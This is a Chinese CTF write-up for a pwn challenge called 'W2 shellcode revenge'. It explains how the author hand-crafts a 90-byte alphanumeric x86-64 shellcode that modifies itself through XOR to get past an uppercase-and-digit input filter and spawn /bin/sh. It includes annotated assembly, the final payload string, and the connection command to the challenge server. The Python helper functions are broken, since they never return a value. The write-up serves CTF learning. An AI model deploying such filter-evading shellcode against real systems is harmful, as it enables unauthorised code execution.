

# W2 shellcode revenge

## 文件分析

下载`shellcodere`, 保护全开  
ghidra分析为64位程序

## 解题思路

程序将shellcode读到0x66660000处，并过滤掉所有非大写字母和数字  
这真的是新生赛吗！搓了我好几天

## 准备

先检查寄存器的值都为多少  


xor主要使用rbx，要清空它；rax和rdx都有特定值要存放，所以用rcx来存基址；
`pop rdi`, `pop rsi`都要搓出来，还有0x3b和sh字符串

程序布局：在可使用的范围内，前段为程序，后端为数据

以下是按字符反汇编解析

## Shellcode分析

```asm
exec:
push rdx                         ; R
pop  rcx                         ; Y set base addr
xor  qword ptr [rcx + 0x5a], rbx ; H1YZ
xor  rbx, qword ptr [rcx + 0x5a] ; H3YZ zero out rbx
xor  bl, byte ptr [rcx + 0x49]   ; 2YI xor pivot 1
xor  byte ptr [rcx + 0x4a], bl   ; 0YJ
xor  byte ptr [rcx + 0x4e], bl   ; 0YN 2* 48 -> 1a
xor  byte ptr [rcx + 0x51], bl   ; 0YQ
xor  byte ptr [rcx + 0x59], bl   ; 0YY 2* zero out last byte
xor  bl, byte ptr [rcx + 0x49]   ; 2YI zero out bl
xor  rbx, qword ptr [rcx + 0x4a] ; H3YJ set rbx value
xor  rbx, qword ptr [rcx + 0x52] ; H3YR xor to get /bin/sh
push rbx                         ; S
push rsp                         ; T point to /bin/sh
;now bl is 2f
xor  bl, byte ptr [rcx + 0x4b]   ; 2YK xor pivot 2
xor  byte ptr [rcx + 0x38], bl   ; 0Y8 make 0x5e
push rdi                         ; W
pop  rdx                         ; Z zero out rdx
xor  byte ptr [rcx + 0x39], bl   ; 0Y9 make 0x5f
xor  al, 0x4f                    ; 4O
xor  al, 0x44                    ; 4D
xor  al, 0x30                    ; 40 make al equals to 0x3b
push rdi                         ; W
pop rsi                          ; G is xored by 0Y8; zero out rsi
pop rdi                          ; F is xored by 0Y9; point to /bin/sh
;now bl is 19
xor bl, byte ptr [rcx + 0x54]    ; 2YT xor pivot 3
xor byte ptr [rcx + 0x43], bl    ; 0YC make 0x0f
xor byte ptr [rcx + 0x44], bl    ; 0YD make 0x05
syscall                          ; OE is xored by 0YC0YD
```

```plaintext
data_section:
rcx + 'E': 000 ; just padding; shrink it to get a shorter shellcode
rcx + 'H': 3   ; xor pivot 2
rcx + 'I': R   ; xor pivot 1
rcx + 'J': H607H60R ; xor part 1
rcx + 'R': 5TYY5EXR ; xor part 2
rcx + 'Z': \0  ; store rbx later
```

最后shellcode长度：**90字节**
## 踩过的坑

1. gdb在调试shellcode的时候建议用si，ni会直接运行到底
2. 网上资料可能不全，需要自己摸索，比如'40'就是自己反汇编才知道的
3. 字符间换来换去还挺麻烦的，用用下面的函数

```python
def toHex(s: str):
    ret = ''
    for c in s:
        ret += hex(ord(c))[2:]

def toChr(s: str):
    ret = ''
    for i in range(0, len(s), 2):
        ret += chr(int(s[i:i+2], 16))
```
## EXPLOIT

`nc node4.buuoj.cn 28975`

*RYH1YZH3YZ2YI0YJ0YN0YQ0YY2YIH3YJH3YRST2YK0Y8WZ0Y94O4D40WGF2YT0YC0YDOE0003RH607H60R5TYY5EXR*  
*cat flag*

## 参考

1. [short shellcode](https://blog.csdn.net/A951860555/article/details/110936441)
2. [alphanumeric shellcode编写指南](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf)
3. [在线汇编/反汇编器](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)
4. [好用的在线异或](http://i.goto327.top:85/Tools1/XOR.aspx)

Done.
